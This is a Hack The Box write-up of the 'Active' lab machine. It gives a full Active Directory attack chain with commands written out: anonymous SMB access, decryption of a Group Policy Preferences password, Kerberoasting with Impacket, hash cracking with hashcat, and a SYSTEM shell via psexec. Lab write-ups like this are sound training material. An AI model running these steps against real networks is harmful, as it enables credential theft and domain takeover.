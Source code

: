 # Active Writeup - by Thammanant Thamtaranon  
- Active is an easy Windows machine hosted on Hack The Box.

## Reconnaissance  
- I started with a full TCP port scan including service/version detection and OS fingerprinting:
```bash
nmap -A -T4 -p- 10.10.10.100
```
![Nmap_Scan](Nmap_Scan.png)  
- The scan showed multiple open ports:  
  - 88 (Kerberos)
  - 135, 139, 444, 5722 (MSRPC/SMB)
  - 389, 3268 (LDAP / Global Catalog)
  - 464 (kpasswd5)
  - 636, 3269 (LDAPS / Global Catalog over SSL)
  - 593 (RPC over HTTP)
  - 9389 (AD Web Services)
  - 47001 (HTTP)

- I added `active.htb` to `/etc/hosts` for proper hostname resolution.

## Scanning & Enumeration  
- We connect to the SMB without password.
![SMB1](SMB1.png)
- We try connect to `Replication` first.
- In the `\active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Preferences\Groups\` we found `Group.xml`
![SMB2](SMB2.png)
- `Group.xml` contain username and password for user `SVC_TGS`.
![SVC_TGS](SVC_TGS.png)

## Exploitation 
- We then run the need to decrypt the password: `gpp-decrypt 'edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ'`
![Decrypt](Decrypt.png)
- We try connect to `Users` but got `NT_STATUS_ACCESS_DENIED`.
- Now we try enumerate LDAP without credential first, but got error.
- So we use the new found credential to enumerate SMB and LDAP, both are valid.
![Enum](Enum.png)
- We will connect to SMB and try to read `Users` firts: `smbclient //10.10.10.100/Users -U 'active.htb\SVC_TGS'`
![SMB3](SMB3.png)
- We then capture the user flag.

## Privilege Escalation  
- We will use `Impacket` to enumerate all accounts with SPNs (service Principal Name set):  `impacket-GetUserSPNs active.htb/SVC_TGS:'GPPstillStandingStrong2k18' -dc-host 10.10.10.100 -request`
- We found `Administrator` account, next we can request a `TGS` ticket for `active/CIFS:445` using `SVC_TGS`.
![Account](Account.png)
- However, we got the error since our clock is too different from the domain controller’s clock. We need to change our clock:
  - First, disable the Network Time Protocol from auto-updating: `timedatectl set-ntp off`
  - Second, set the time to match the target machine: `sudo rdate -n 10.10.10.100`
  - Lastly, we run the command again.
![TGS](TGS.png)
- We then copy the hash into `tgs.hash` and run `hashcat -m 13100 tgs.hash /usr/share/wordlists/rockyou.txt`
![Password](Password.png)
- We then use `Impacket` to get a shell: `impacket-psexec administrator@10.10.10.100`.
- We then got a shell as SYSTEM and capture the root flag.
 ![Root](Root.png)
